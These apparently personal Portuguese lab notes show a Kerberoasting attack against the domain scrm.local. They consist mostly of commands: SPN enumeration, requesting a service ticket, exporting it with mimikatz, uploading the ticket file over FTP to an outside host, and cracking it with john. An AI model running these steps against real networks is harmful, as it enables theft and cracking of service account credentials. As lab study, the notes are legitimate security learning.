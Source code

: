Kerberoasting
=============

```
setspn -T scrm.local -Q */*
```

impacket

Temos que focar no que for contas de serviço que não seja de máquinas, conforme print abaixo:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Usuário de serviço (não é de máquina)</p></figcaption></figure>

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dc1.scrm.local:1433"
```

Requisitei o ticket

```
klist
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
kerberos::list /export
$client = New-Object System.Net.WebClient;$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous");$client.UploadFile("ftp://10.10.14.14/test.kirbi", "C:\temp\1-40a10000-sqlsvc@MSSQLSvc~dc1.scrm.local~1433-SCRM.LOCAL.kirbi")
python -m pyftpdlib --port=21 --write
```

```
python /home/acosta/owncloud/Area_de_trabalho/tools/linux/5-lateral_movement/kerberoast/kirbi2john.py test.kirbi > test.john
john --wordlist=/usr/share/wordlists/rockyou.txt test.john
```



